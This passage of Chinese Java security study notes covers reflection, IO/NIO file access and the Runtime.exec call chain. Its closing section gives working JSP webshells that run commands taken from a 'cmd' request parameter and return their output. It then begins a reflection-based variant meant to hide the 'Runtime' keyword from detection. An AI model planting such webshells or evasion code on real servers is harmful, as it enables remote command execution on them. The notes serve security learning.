//3.使用类的class方法
Class p=phone.class;
```

### **获取实例化对象(object)**

获取实例化对象object的方法通常有两种:

```java
//1.通过class的newInstance()方法
Class p = Class.forName("test.phone");
Object p1 = p.newInstance();
//这里也有另一种写法,区别是要进行强制类型转化
Class p = Class.forName("test.phone");
phone p1 = (phone)p.newInstance();

//2.通过constructor的newInstance()方法
Class p=Class.forName("test.phone");
Constructor constructor=p.getConstructor();
Object p1=constructor.newInstance();//这里同上一样有另一种写法，就不再赘述

//运用这种方法前需要先调用它的无参构造器，然后再实例化
```


下面用一个实例来演示一下反射获取类和对象

#### **phone类**

```java
package com.y5neko.sec.phone;

public class phone {
    private String name;
    private double weight;
    public phone(){
    }
    public phone(String name,double weight){
        this.name=name;
        this.weight=weight;
    }
    public void dianyuan(){ //定义一个无返回值的方法，调用会打印"开机"
        System.out.println("开机");
    }
    public void setName(String name){ //定义一个形参为String类型的方法，调用后给name属性赋值
        this.name=name;
    }
    public String getName(){ //定义一个调用后返回name属性的值的方法
        return name;
    }
    public void setWeight(double weight){ //定义一个形参为double类型的方法，调用后给weight属性赋值
        this.weight=weight;
    }
    public double getWeight(){ //定义一个调用后返回weight属性的值的方法
        return weight;
    }
}
```

#### **反射获取示例**

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class TestReflectClass {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException, InvocationTargetException {

        //通过class的newInstance()方法
        Class p = Class.forName("com.y5neko.sec.phone.phone");
        System.out.println(p);
        Object p1 = p.newInstance();
        System.out.println("class的newInstance方法：\n" + p1);
        //反射调用方法
        Method method1 = p.getDeclaredMethod("setName", String.class);
        Method method2 = p.getDeclaredMethod("getName");
        method1.setAccessible(true);
        method1.invoke(p1,new Object[]{"IQOO"});
        System.out.println(method2.invoke(p1));

        //另一种写法,区别是要进行强制类型转化
        Class p_2 = Class.forName("com.y5neko.sec.phone.phone");
        phone p2 = (phone)p_2.newInstance();
        System.out.println("class的第二个newInstance方法：\n" + p2);

        //通过constructor的newInstance()方法
        Class p_3 = Class.forName("com.y5neko.sec.phone.phone");
        Constructor constructor = p_3.getConstructor(String.class, double.class);
        System.out.println("constructor的newInstance方法：");
        System.out.println(constructor);
        Object p3 = constructor.newInstance("IQOO",12.5);
        System.out.println(p3);

        phone pp = new phone();
        System.out.println(pp);
        pp.setName("123");

    }
}

```


class的newInstance()方法,需要我们类中存在无参的构造器，它通过无参的构造器来实例化，而一旦我们类中不存在无参构造器，那么第一种方法就不行了

我们可以用constructor的newInstance方法来直接通过有参构造器初始化：

#### constructor的newInstance方法

```java
//通过constructor的newInstance()方法
Class p_3 = Class.forName("com.y5neko.sec.phone.phone");
//这个是调用了我们之前设置的含参构造器(忘记的上去看看第一部分构造的),后面传入的参数是String和double的原型类，因为我们之前构造器的参数类型就是String和double，所以我们这里用这个。
Constructor constructor = p_3.getConstructor(String.class, double.class);
Object p3 = constructor.newInstance("IQOO",12.5);
```


### 获取类的构造器(constructor)

获取类的构造器constructor一般有四种方法:

```java
//1.获取public类型的构造器:getConstructor(class[]parameterTypes)
Class p=Class.forName("test.phone");
Constructor constructor=p.getConstructor();
//这里你可以指定参数，来获取含参的构造器，之前演示过，不再赘述.

//2.获取全部public类型的构造器:getConstructors()
Class p=Class.forName("test.phone");
Constructor[] constructor=p.getConstructors();
//注意这里要用数组，因为全部构造器可能并不只有一个

//3.获取public和private类型的构造器:getDeclaredConstructor(class[]parameterTypes)
//当我们前面构造器类型是private的时候，运用上述两种方法是调用不到的。
Class p=Class.forName("test.phone");
Constructor constructor=p.getDeclaredConstructor();

//4.获取全部类型的构造器:getDeclaredConstructors()
Class p=Class.forName("test.phone");
Constructor[] constructor=p.getDeclaredConstructors();
//注意，这个同意要改为数组的形式
```

#### 获取构造器实例

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Constructor;

public class TestReflectConstructor {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException {
        Class p=Class.forName("com.y5neko.sec.phone.phone");

        Constructor constructor=p.getConstructor(String.class, double.class);
        System.out.println("public类型的构造器：");
        System.out.println(constructor);

        Constructor[] constructors = p.getConstructors();
        System.out.println("全部public类型的构造器：");
        for (int i = 0; i < constructors.length; i++) {
            System.out.println(constructors[i]);
        }

        Constructor constructor1 = p.getDeclaredConstructor();
        System.out.println("private和public类型的构造器：");
        System.out.println(constructor1);

        Constructor[] constructors1 = p.getDeclaredConstructors();
        System.out.println("全部类型的构造器：");
        for (int i = 0; i < constructors1.length; i++) {
            System.out.println(constructors1[i]);
        }
    }
}
```


### 获取类的属性(field)

常见的获取类属性field的方法有四种:

```java
//1.获取类的一个public类型属性:getField(String name)
Class p=Class.forName("test.phone");
Field f=p.getField("name");

//2.获取类的一个全部类型的属性:getDeclaredField(String name)
 Class p=Class.forName("test.phone");
 Field f=p.getDeclaredField("weight");

//3.获取类的全部public类型的属性:getFields()
 Class p=Class.forName("test.phone");
 Field[] f=p.getFields(); //同样要注意改成数组

//4.获取类的全部类型的属性:getDeclaredFields()
Class p=Class.forName("test.phone");
Field[] f=p.getDeclaredFields(); //同样要注意改成数组
```

#### 	获取属性实例

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Field;

public class TestReflectField {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException {
        Class p = Class.forName("com.y5neko.sec.phone.phone");

        Field field = p.getField("test");
        System.out.println("获取类的一个public类型属性：");
        System.out.println(field);

        Field[] fields = p.getFields();
        System.out.println("获取类的所有public类型属性：");
        for (int i = 0; i < fields.length; i++) {
            System.out.println(fields[i]);
        }

        Field field1 = p.getDeclaredField("name");
        System.out.println("获取类的一个所有类型属性：");
        System.out.println(field1);

        Field[] fields1 = p.getDeclaredFields();
        System.out.println("获取类的所有所有类型属性：");
        for (int i = 0; i < fields1.length; i++) {
            System.out.println(fields1[i]);
        }
    }
}
```


### 获取类的方法(method)

常用的获取类的方法有三种:

```java
//1.获取类的一个特定public类型的方法:getMethod(String name,class[] parameterTypes)
Class p=Class.forName("test.phone");
Method m=p.getMethod("setName", String.class); //要注意这里有两个参数，后面要传入的是方法形参的类型的原型,无参函数就不用填

//2.获取类的一个特定无论什么类型的方法:getDeclaredMethod(String name,class[] parameterTypes)
Class p=Class.forName("test.phone");
Method m=p.getDeclaredMethod("setName", String.class);

//3.获取类的全部public的方法:getMethods()
Class p=Class.forName("test.phone");
Method[] m=p.getMethods();//要注意改成数组

//4.获取类的全部类型的方法:getDeclaredMethods()
 Class p=Class.forName("test.phone");
 Method[] m=p.getDeclaredMethods(); //同样要注意改成数组
```

#### 获取方法实例

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Method;

public class TestReflectMethod  {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException {
        Class p = Class.forName("com.y5neko.sec.phone.phone");

        Method method = p.getMethod("dianyuan");
        System.out.println("获取类的一个特定public类型的方法：");
        System.out.println(method);

        Method[] methods = p.getMethods();
        System.out.println("获取类的所有public类型的方法：");
        for (int i = 0; i < methods.length; i++) {
            System.out.println(methods[i]);
        }

        Method method1 = p.getDeclaredMethod("poweroff");
        System.out.println("获取类的一个特定任意类型的方法：");
        System.out.println(method1);

        Method[] methods1 = p.getDeclaredMethods();
        System.out.println("获取类的所有类型的方法：");
        for (int i = 0; i < methods1.length; i++) {
            System.out.println(methods1[i]);
        }

    }
}
```


### 反射完整调用流程

```java
Class p=Class.forName("test.phone");           //获取phone类的原型
Constructor constructor=p.getConstructor();      //获取无参的构造器
Object o=constructor.newInstance();             //实例化一个对象o
Method m=p.getMethod("dianyuan");               //获取方法dianyuan
m.invoke(o);                                    //运用Method的invoke方法来执行这个类的方法
Method m1=p.getMethod("setName", String.class); //获取方法setName
Method m2=p.getMethod("getName");               //获取方法getName
m1.setAccessible(true);							//私有方法需要通过Method的setAccessible方法更改权限
m1.invoke(o,"8848");                            //执行setName方法，为Name属性赋值
System.out.println(m2.invoke(o));             //调用getName的方法并打印返回值
```

#### 反射执行实例

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class TestReflect {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //获取类
        Class p = Class.forName("com.y5neko.sec.phone.phone");

        //获取无参构造器
        Constructor constructor = p.getConstructor();

        //获取有参构造器
        Constructor constructor1 = p.getConstructor(String.class, double.class);

        //获取实例化对象(无参实例化)
        Object o = constructor.newInstance();

        //获取实例化对象(有参实例化)
        Object o1 = constructor1.newInstance("IQOO",12.5);

        //获取方法dianyuan
        Method method = p.getDeclaredMethod("dianyuan");

        //通过method类的invoke方法来执行这个类的方法
        method.invoke(o);

        //获取方法setName, getName, poweroff
        Method method1 = p.getDeclaredMethod("setName", String.class);
        Method method2 = p.getDeclaredMethod("getName");
        Method method3 = p.getDeclaredMethod("poweroff");
        //invoke反射执行
        method1.invoke(o,"IQOO11");
        System.out.println(method2.invoke(o));
        //私有类型，通过setAccessible方法更改权限
        method3.setAccessible(true);
        method3.invoke(o);
    }
}
```


### 反射Runtime类命令执行

首先看一下Runtime类命令执行的流程


我们可以看到无参构造器是private的，所以无法直接使用class类的newInstance方法，所以需要getDeclaredConstructor获取，并且需要setAccessible修改作用域

继续跟进到我们要调用的exec方法



exec一共有六个重载函数，我们用第一个就行，public类型直接获取方法就行

接下来我们直接反射

```java
package com.y5neko.sec.reflect;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class TestReflectExec {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        //获取Runtime类
        Class clazz = Class.forName("java.lang.Runtime");

        //获取私有空参构造器
        Constructor constructor = clazz.getDeclaredConstructor();

        //修改作用域
        constructor.setAccessible(true);

        //实例化对象
        Object o = constructor.newInstance();

        //获取exec方法
        Method method = clazz.getMethod("exec", String.class);

        //invoke反射调用
        method.invoke(o,"calc");
    }
}
```


如果需要回显则需要读取输入流

```java
//InputStream读取输入流
InputStream in = process.getInputStream();
//创建reader对象
InputStreamReader inputStreamReader = new InputStreamReader(in);
//转为BufferReader
BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
//逐行读取
String line;
while ((line = bufferedReader.readLine()) != null) {
	System.out.println(line);
}
int exitcode = process.waitFor();
System.out.println("进程退出：" + exitcode);
```


## Java文件系统

众所周知Java是一个跨平台的语言，不同的操作系统有着完全不一样的文件系统和特性。JDK会根据不同的操作系统(`AIX,Linux,MacOSX,Solaris,Unix,Windows`)编译成不同的版本。

在Java语言中对文件的任何操作最终都是通过`JNI`调用`C语言`函数实现的。Java为了能够实现跨操作系统对文件进行操作抽象了一个叫做FileSystem的对象出来，不同的操作系统只需要实现起抽象出来的文件操作方法即可实现跨平台的文件操作了。

### Java FileSystem

在Java SE中内置了两类文件系统：`java.io`和`java.nio`，`java.nio`的实现是`sun.nio`，文件系统底层的API实现如下图：


### Java IO 文件系统

Java抽象出了一个叫做文件系统的对象:`java.io.FileSystem`，不同的操作系统有不一样的文件系统,例如`Windows`和`Unix`就是两种不一样的文件系统： `java.io.UnixFileSystem`、`java.io.WinNTFileSystem`。


`java.io.FileSystem`是一个抽象类，它抽象了对文件的操作，不同操作系统版本的JDK会实现其抽象的方法从而也就实现了跨平台的文件的访问操作。


示例中的`java.io.UnixFileSystem`最终会通过JNI调用native方法来实现对文件的操作:


由此我们可以得出Java只不过是实现了对文件操作的封装而已，最终读写文件的实现都是通过调用native方法实现的。

不过需要特别注意一下几点：

1. 并不是所有的文件操作都在`java.io.FileSystem`中定义,文件的读取最终调用的是`java.io.FileInputStream#read0、readBytes`、`java.io.RandomAccessFile#read0、readBytes`,而写文件调用的是`java.io.FileOutputStream#writeBytes`、`java.io.RandomAccessFile#write0`。
2. Java有两类文件系统API！一个是基于`阻塞模式的IO`的文件系统，另一是JDK7+基于`NIO.2`的文件系统。

### Java NIO.2 文件系统

Java 7提出了一个基于NIO的文件系统，这个NIO文件系统和阻塞IO文件系统两者是完全独立的。`java.nio.file.spi.FileSystemProvider`对文件的封装和`java.io.FileSystem`同理。


### Java IO流

#### IO

计算机系统的IO即通过数据流、序列化和文件系统提供系统输入和输出。

#### 流

流是一个很形象的概念，当程序需要读取数据的时候，就会开启一个通向**数据源**的流，这个数据源可以是文件，内存，或者是网络连接。类似的，当程序需要写入数据的时候，就会开启一个通向目的地的流。这时候你就可以想象数据好像在这其中“流”动一样。

Java把这些不同来源和目标的数据都统一抽象为数据流。

#### 分类

按流向分：
1）输入流：程序可以从中读取数据的流；
2）输出流：程序能向其中写入数据的流

按数据传输单位分：
1）字节流：以字节为单位传输数据的流；
2）字符流：以字符为单位传输数据的流；

按功能分：
1）节点流：用于直接操作目标设备的流；
2）过滤流：是对一个已存在的流的链接和封装，通过对数据进行处理为程序提供功能强大、灵活的读写功能。


###  Java IO/NIO多种读写文件方式

上一章节我们提到了Java 对文件的读写分为了基于阻塞模式的IO和非阻塞模式的NIO，本章节我将列举一些我们常用于读写文件的方式。

我们通常读写文件都是使用的阻塞模式，与之对应的也就是`java.io.FileSystem`。`java.io.FileInputStream`类提供了对文件的读取功能，Java的其他读取文件的方法基本上都是封装了`java.io.FileInputStream`类，比如：`java.io.FileReader`。

#### FileInputStream文件读取

```java
package com.y5neko.sec.filesystem;

import java.io.*;

public class TestFileInputStream {
    public static void main(String[] args) throws IOException {
        //创建文件对象
        File file = new File("C:\\Windows\\System32\\drivers\\etc\\hosts");

        //打开文件对象，创建文件输入流
        FileInputStream fis = new FileInputStream(file);

        //定义每次输入流读取的字节数对象
        int a = 0;

        //创建字节缓冲区对象，定义缓冲区大小
        byte[] bytes = new byte[1024];

        //创建字节输出流对象
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        //循环读取文件内容
        //read方法将文件输入流中的内容读取（剪切）到bytes内存中，bytes缓冲区有多大就读多长，读完了就返回-1
        while ((a = fis.read(bytes)) != -1){
            //write方法截取bytes缓冲区数组中的内容到baos字节输出流对象中
            //(bytes, 0, a)其中的0表示从bytes数组的下标0开始截取，a表示输入流read到的字节数
            baos.write(bytes, 0, a);
        }

        System.out.println(baos);
    }
}
```


首先来看一下read方法


可以看到read方法会自动计算缓冲区的长度，并且调用readBytes，这是一个native方法，将此输入流中最多b.length长度的字节读取到缓冲区中（剪切而不是复制），如果没有数据了读就会返回-1

接着一下write方法


从偏移0处截取len长度的数据，并写入到输出流中

调用链如下：

```java
java.io.FileInputStream.readBytes(FileInputStream.java:219)
java.io.FileInputStream.read(FileInputStream.java:233)
com.y5neko.sec.filesystem.FileInputStreamDemo.main(FileInputStreamDemo.java:27)
```

其中的readBytes是native方法，文件的打开、关闭等方法也都是native方法：

```java
private native int readBytes(byte b[], int off, int len) throws IOException;
private native void open0(String name) throws FileNotFoundException;
private native int read0() throws IOException;
private native long skip0(long n) throws IOException;
private native int available0() throws IOException;
private native void close0() throws IOException;
```

`java.io.FileInputStream`类对应的native由C语言实现：

```c
JNIEXPORT void JNICALL
Java_java_io_FileInputStream_open0(JNIEnv *env, jobject this, jstring path) {
    fileOpen(env, this, path, fis_fd, O_RDONLY);
}

JNIEXPORT jint JNICALL
Java_java_io_FileInputStream_read0(JNIEnv *env, jobject this) {
    return readSingle(env, this, fis_fd);
}

JNIEXPORT jint JNICALL
Java_java_io_FileInputStream_readBytes(JNIEnv *env, jobject this,
        jbyteArray bytes, jint off, jint len) {
    return readBytes(env, this, bytes, off, len, fis_fd);
}

JNIEXPORT jlong JNICALL
Java_java_io_FileInputStream_skip0(JNIEnv *env, jobject this, jlong toSkip) {
    jlong cur = jlong_zero;
    jlong end = jlong_zero;
    FD fd = GET_FD(this, fis_fd);
    if (fd == -1) {
        JNU_ThrowIOException (env, "Stream Closed");
        return 0;
    }
    if ((cur = IO_Lseek(fd, (jlong)0, (jint)SEEK_CUR)) == -1) {
        JNU_ThrowIOExceptionWithLastError(env, "Seek error");
    } else if ((end = IO_Lseek(fd, toSkip, (jint)SEEK_CUR)) == -1) {
        JNU_ThrowIOExceptionWithLastError(env, "Seek error");
    }
    return (end - cur);
}

JNIEXPORT jint JNICALL
Java_java_io_FileInputStream_available0(JNIEnv *env, jobject this) {
    jlong ret;
    FD fd = GET_FD(this, fis_fd);
    if (fd == -1) {
        JNU_ThrowIOException (env, "Stream Closed");
        return 0;
    }
    if (IO_Available(fd, &ret)) {
        if (ret > INT_MAX) {
            ret = (jlong) INT_MAX;
        } else if (ret < 0) {
            ret = 0;
        }
        return jlong_to_jint(ret);
    }
    JNU_ThrowIOExceptionWithLastError(env, NULL);
    return 0;
}
```


#### FileOutputStream文件写入

```java
package com.y5neko.sec.filesystem;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;

public class TestFileOutputStream {
    public static void main(String[] args) throws IOException {
        File file = new File("D:/test.txt");

        String content = "Hello Y5neKO!";

        FileOutputStream fos = new FileOutputStream(file);

        //通过getBytes方法获得字节数组，向文件输出流中写入
        fos.write(content.getBytes());
        //flush方法是为了清空缓冲区
        fos.flush();
        fos.close();
    }
}
```


flush方法是字节输出流的抽象父类OutputStream的方法，所以每个字节输出流类都会有flush方法。但是有些没有缓冲区的类flush方法只是被重写了，但什么都不做，也就是方法体是为空的。所以FileOutputStream调用flush方法什么都没做。另外，close方法也会强制清空缓冲区，因此不写flush也是可以的，但对于不能马上调用close方法的，还是需要用flush方法强制清空一下。毕竟一旦调用close方法，这个流对象也就不能用了。


#### RandomAccessFile

Java提供了一个非常有趣的读取文件内容的类: `java.io.RandomAccessFile`,这个类名字面意思是任意文件内容访问，特别之处是这个类不仅可以像`java.io.FileInputStream`一样读取文件，而且还可以写文件。

##### RandomAccessFile读取文件

```java
package com.y5neko.sec.filesystem;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.IOException;
import java.io.RandomAccessFile;

public class TestRandomAccessFileInput {
    public static void main(String[] args) {
        File file = new File("D:/test.txt");

        try {
            // 创建RandomAccessFile对象,r表示以只读模式打开文件，一共有:r(只读)、rw(读写)、
            // rws(读写内容同步)、rwd(读写内容或元数据同步)四种模式。
            RandomAccessFile raf = new RandomAccessFile(file, "r");

            // 定义每次输入流读取到的字节数对象
            int a = 0;

            // 定义缓冲区大小
            byte[] bytes = new byte[1024];

            // 创建二进制输出流对象
            ByteArrayOutputStream out = new ByteArrayOutputStream();

            // 循环读取文件内容
            while ((a = raf.read(bytes)) != -1) {
                // 截取缓冲区数组中的内容，(bytes, 0, a)其中的0表示从bytes数组的
                // 下标0开始截取，a表示输入流read到的字节数。
                out.write(bytes, 0, a);
            }

            System.out.println(out);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


`java.io.RandomAccessFile`类中提供了几十个`readXXX`方法用以读取文件系统，最终都会调用到`read0`或者`readBytes`方法，我们只需要掌握如何利用`RandomAccessFile`读/写文件就行了。

##### RandomAccessFile写文件

```java
package com.y5neko.sec.filesystem;

import java.io.File;
import java.io.IOException;
import java.io.RandomAccessFile;

public class TestRandomAccessFileOutput {
    public static void main(String[] args) {
        File file = new File("D:/test.txt");

        // 定义待写入文件内容
        String content = "Hello Y5neKO!";

        try {
            // 创建RandomAccessFile对象,rw表示以读写模式打开文件，一共有:r(只读)、rw(读写)、
            // rws(读写内容同步)、rwd(读写内容或元数据同步)四种模式。
            RandomAccessFile raf = new RandomAccessFile(file, "rw");

            // 写入内容二进制到文件
            raf.write(content.getBytes());
            raf.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


#### FileSystemProvider

JDK7新增的NIO.2的`java.nio.file.spi.FileSystemProvider`,利用`FileSystemProvider`我们可以利用支持异步的通道(`Channel`)模式读取文件内容。

##### FileSystemProvider读取文件

```java
package com.y5neko.sec.filesystem;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class TestFileSystemProviderInput {

    public static void main(String[] args) {

        // 定义读取的文件路径
        Path path = Paths.get("D:/test.txt");

        try {
            byte[] bytes = Files.readAllBytes(path);
            System.out.println(new String(bytes));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}
```

`java.nio.file.Files`是JDK7开始提供的一个对文件读写取非常便捷的API，其底层实在是调用了`java.nio.file.spi.FileSystemProvider`来实现对文件的读写的。最为底层的实现类是`sun.nio.ch.FileDispatcherImpl#read0`。

基于NIO的文件读取逻辑是：打开FileChannel->读取Channel内容。

打开FileChannel的调用链为：

```java
sun.nio.ch.FileChannelImpl.<init>(FileChannelImpl.java:89)
sun.nio.ch.FileChannelImpl.open(FileChannelImpl.java:105)
sun.nio.fs.UnixChannelFactory.newFileChannel(UnixChannelFactory.java:137)
sun.nio.fs.UnixChannelFactory.newFileChannel(UnixChannelFactory.java:148)
sun.nio.fs.UnixFileSystemProvider.newByteChannel(UnixFileSystemProvider.java:212)
java.nio.file.Files.newByteChannel(Files.java:361)
java.nio.file.Files.newByteChannel(Files.java:407)
java.nio.file.Files.readAllBytes(Files.java:3152)
com.y5neko.sec.filesystem.FilesDemo.main(FilesDemo.java:23)
```

文件读取的调用链为：

```java
sun.nio.ch.FileChannelImpl.read(FileChannelImpl.java:147)
sun.nio.ch.ChannelInputStream.read(ChannelInputStream.java:65)
sun.nio.ch.ChannelInputStream.read(ChannelInputStream.java:109)
sun.nio.ch.ChannelInputStream.read(ChannelInputStream.java:103)
java.nio.file.Files.read(Files.java:3105)
java.nio.file.Files.readAllBytes(Files.java:3158)
com.y5neko.sec.filesystem.FilesDemo.main(FilesDemo.java:23)
```

##### FileSystemProvider写文件

```java
package com.y5neko.sec.filesystem;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class TestFileSystemProviderOutput {

    public static void main(String[] args) {
        // 定义读取的文件路径
        Path path = Paths.get("D:/test.txt");

        // 定义待写入文件内容
        String content = "Hello Y5neKO!";

        try {
            // 写入内容二进制到文件
            Files.write(path, content.getBytes());
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}
```


### Java 文件名空字节截断漏洞

<略>


## 命令执行流程

常用的是 `java.lang.Runtime#exec()`和 `java.lang.ProcessBuilder#start()`，除此之外，还有更为底层的`java.lang.ProcessImpl#start()`，他们的调用关系如下图所示：


其中，ProcessImpl类是Process抽象类的具体实现，且该类的构造函数使用private修饰，所以无法在java.lang包外直接调用，只能通过反射调用ProcessImpl#start()方法执行命令。


### Runtime

比较通常用的一种命令执行方法，Runtime.getRuntime中的exec方法

```java
import java.io.IOException;
public class test {
    public static void main(String args[]) throws IOException{
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

Runtime.getRuntime().exec 用于调用外部可执行程序或系统命令，并重定向外部程序的标准输入、标准输出和标准错误到缓冲池。功能和windows“运行”类似

> Runtime.exec不是shell环境，不能直接调用shell命令，需要对不同的操作系统调用不同的命令解释器，Windows的cmd，Linux的/bin/bash或/bin/sh等

#### 简介

Java中，Runtime类提供了许多的API来与`java runtime environment`进行交互，如：

- 执行一个进程。
- 调用垃圾回收。
- 查看总内存和剩余内存。

Runtime是单例的，可以通过`Runtime.getRuntime()`得到这个单例。

#### API列表

一些常见的API


这里详细分析exec的调用链

#### exec调用链

首先找到接口位置，位于`java.lang`的`Runtime`类

首先通过`getRuntime`方法获取一个Runtime对象


紧接着调用exec方法，可以看到exec一共有六个重载方法


其中完整的参数有三个，command、envp、dir，位置和类型如上，其中command为必须，envp和dir为可选；envp为环境变量，没有envp参数或许为null，那么新发动的进程就承继当时java进程的环境变量；dir为工作目录，没有dir参数或许为null，那么新发动的进程就承继当时java进程的工作目录；我们按顺序来看

##### java.lang.Runtime.java:347


第一个重载方法是在只传入一个String类型时执行的方法，此时envp和dir参数为null，官方的注释为：在单独的进程中执行指定的字符串命令。

##### java.lang.Runtime.java:387


第二个重载方法只有dir参数为空，官方的注释为：在具有指定环境的单独进程中执行指定的字符串命令。

##### java.lang.Runtime.java:441


第三个重载方法三个参数都有，官方的注释为：在具有指定环境和工作目录的单独进程中执行指定的字符串命令。

这个方法用到了`StringTokenizer`类，作用是根据某些字符做间隔进行分割字符，具体形式后面再具体分析；最后转变为cmdarray数组传入了exec方法

##### 省略

中间两个重载方法同上，只是command参数变成了直接接受cmdarray数组，中间会调用cmdarray的处理方法，暂时先不看

##### java.lang.Runtime.java:620

接下来来到重点最后一个重载方法


上面的方法return到最后一个重载方法，此时准备好调用`ProcessBuilder`类创建process

> Process类将持有该程序返回 Java VM 的引用。这个procss类是一个抽象类，具体子类的实现依赖于不同的底层操作系统。

而这个process类型需要通过`ProcessBuilder.start()`方法进行创建

##### java.lang.ProcessBuilder.java:1029

跟进到`ProcessBuilder.start()`方法，通过上面的步骤对cmdarray数组进行解析，取出cmdarray[0]赋值给prog,如果安全管理器SecurityManager开启,会调用SecurityManager#checkExec()对执行程序prog进行检查，检查通过后调用`ProcessImpl`类的`start`方法




##### java.lang.ProcessImpl.java:87

跟进到`java.lang.ProcessImpl.java`，根据官方注释，`ProcessImpl`类仅用于`ProcessBuilder.start()`创建新Process


我们继续跟进到`ProcessBuilder.start()`方法，Windows下会调用`ProcessImpl`类的构造方法，如果是Linux环境，则会调用`java.lang.UNIXProcess#init<>`


##### java.lang.ProcessImpl.java:314

这里以Windows为例，跟进`ProcessImpl`类构造方法


构造方法内，通过`SecurityManager`类进行安全校验，通过`allowAmbiguousCommands`变量作为是否允许调用本地进程的开关，只有当两种检查都通过的时候，则进入`Legacy mode(传统模式)`



传统模式调用`needsEscaping`，这一步是为了对没有被双引号包裹的空格进行处理，最后通过`createCommandLine`拼接成字符串



##### java.lang.ProcessImpl.java:386

最后通过`ProcessImpl.create`方法创建进程


##### ProcessImpl.create

这是一个Native方法（Java调用非Java代码的接口），根据JNI命名规则，会调用`ProcessImpl_md.c`中的`Java_Java_lang_ProcessImpl_create`，我们来看看`ProcessImpl_md.c`的源码

> ProcessImpl_md.c源码：
>
> http://hg.openjdk.java.net/lambda/lambda/jdk/file/e6aeeec33e53/src/windows/native/java/lang/ProcessImpl_md.c


可以看到接受来自java的参数，而在216行，我们可以看到调用了Windows的api函数`CreateProcessW()`，他的作用是用来创建一个Windows进程


我们来看看Windows官方的定义

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw


##### 总结

通过观察上面的整个流程，我们可以总结出`Runtime.exec`的整个调用链

```java
//传入参数
Runtime.getRuntime().exec(cmd);

//六个重载函数，根据传入不同的数据类型和参数个数进入，最终都处理成‘String[] cmdarray, String[] envp, File dir’的形式，调用最后一个重载函数
java.lang.Runtime.java:620
    
//调用ProcessBuilder类的start函数
java.lang.ProcessBuilder.java:1029
    
//根据操作系统类区分，如果是Windows则进入ProcessImpl类的构造方法，如果是Linux则调用java.lang.UNIXProcess#init<>；以Windows为例

```


#### Windows下调用cmd

```java
String [] cmd = {"cmd","/C","calc.exe"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### Linux下调用/bin/bash

```java
String [] cmd = {"/bin/bash","-c","ls"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### 根据系统选择合适的解释器

```java
System.getProperty("os.name");
```


## Java本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

### Runtime命令执行测试

#### runtime-exec2.jsp

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```


这样执行命令没有回显，我们可以通过字节输入流读取回显结果

#### runtime-exec.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
  InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
  ByteArrayOutputStream baos = new ByteArrayOutputStream();
  int a;
  byte[] bytes = new byte[1024];
  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }
  out.write("命令结果：\n" + baos);
%>
```


##### Runtime.exec调用链

`Runtime.exec(xxx)`调用链如下:

```java
org.apache.jsp.runtime_002dexec_jsp._jspService(runtime_002dexec_jsp:114)
java.lang.Runtime.exec(Runtime.java:347)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
//如果是Linux则继续跟进
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
```

通过观察整个调用链我们可以清楚的看到`exec`方法并不是命令执行的最终点，执行逻辑大致是：

1. `Runtime.exec(xxx)`
2. `java.lang.ProcessBuilder.start()`
3. `new java.lang.UNIXProcess(xxx)`
4. `UNIXProcess`构造方法中调用了`forkAndExec(xxx)` native方法。
5. `forkAndExec`调用操作系统级别`fork`->`exec`(*nix)/`CreateProcess`(Windows)执行命令并返回`fork`/`CreateProcess`的`PID`。

有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!

### JSP反射Runtime类命令执行

如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替。

#### reflect-cmd.jsp

```java
<%@ page contentType="text/html;charset=UTF-8" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>

<%
    //定义request接收的参数
